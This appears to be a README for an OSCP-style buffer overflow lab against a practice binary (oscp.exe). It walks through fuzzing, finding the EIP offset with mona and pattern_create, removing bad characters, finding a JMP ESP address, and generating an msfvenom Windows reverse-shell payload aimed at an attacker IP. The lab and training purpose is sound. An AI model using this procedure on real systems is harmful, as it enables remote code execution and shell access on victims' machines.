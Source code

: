 ## Steps for `Buffer Overflow`

1. Set up !Mona on Debugger

```
!mona config -set workingfolder c:\mona\%p
```

2. Change the IP, what is to be sent, port on fuzzer.py. Once changed, run fuzzer.py

```
python fuzzer.py
```

Make a note of the largest number of bytes that were sent.

3. Run the following command on Kali. Input the number of bytes before the application crash, plus another 400 bytes.

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <number of bytes>
```

4. Copy the string that is generated from the above command and paste it under payload in the exploit.py. Run exploit.py.

```
python exploit.py
```

5. In the Debugger, use the following command. The number of bytes will be the number that is used to generate the pattern.

```
!mona findmsp -distance <number of bytes>
```

The position where EIP is will be on:

```
EIP contains normal pattern : ... (offset XXXX)
```

Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

6. Generate a bytearray using the following command on debugger:

```
!mona bytearray -b "\x00"
```

This will be used to compare after the exploit is run.

7. Using the byte_generater.py, generate the characters to test the bad characters for the exploit.

```
python byte_generater.py
```

Copy the characters and paste them under `payload` in `exploit.py`.

8. Run exploit.py. The application will crash. Once the application has crashed, take note of the ESP register. Run the following on Debugger, where the address is the ESP regsiter location:

```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```

A popup window should appear labelled "mona Memory comparison results". If not, use the Window menu to switch to it. The window shows the results of the comparison, indicating any characters that are different in memory to what they are in the generated bytearray.bin file.

9. Run `Step 6` again, adding in the bad characters one by one. Remove the bad characters from payload variable in `exploit.py`. Run exploit.py. The application will crash

Once the application has crashed, run `Step 8` again to compare whether there are still bad characters. Repeat the badchar comparison until the results status returns "Unmodified". This indicates that no more badchars exist.

10. With the application running, run the following command, to include the bad characters found:

```
!mona jmp -r esp -cpb "\x00\x07"
```

This is to find any `JMP ESP` that do not have the bad characters indicated.

11. Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

12. Generate a metersploit payload, using Kali IP and include bad characters, in the command below: 

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
```

Copy the payload and paste it under the payload in `exploit.py`.

13. Add in padding in `exploit.py`

```
padding = "\x90" * 16
```

14. Start the msfconsole listener and run the exploit. 












